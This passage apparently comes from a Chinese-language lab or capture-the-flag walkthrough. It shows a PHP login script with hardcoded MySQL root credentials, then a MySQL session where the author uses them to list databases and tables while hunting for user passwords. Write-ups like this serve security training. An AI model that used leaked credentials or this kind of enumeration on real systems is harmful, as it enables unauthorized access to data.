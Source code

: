                 session_start();
                try
                {
                        $con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
                        $con->setAttribute(PDO::ATTR_ERRMODE,PDO::ERRMODE_WARNING);
                }
                catch(PDOException $e)
                {
                        exit("Connection failed ". $e->getMessage());
                }
                require_once("account.php");
                $account = new Account($con);
                $success = $account->login($username,$password);
                if($success)
                {
                        header("Location: hacker.php");
                }
        }
?>
```

登录数据库，在user表找到两个用户密码
```
mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| webportal          |
+--------------------+
5 rows in set (0.00 sec)

mysql> use webportal
use webportal
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+---------------------+
| Tables_in_webportal |
+---------------------+
| users               |
+---------------------+
1 row in set (0.00 sec)
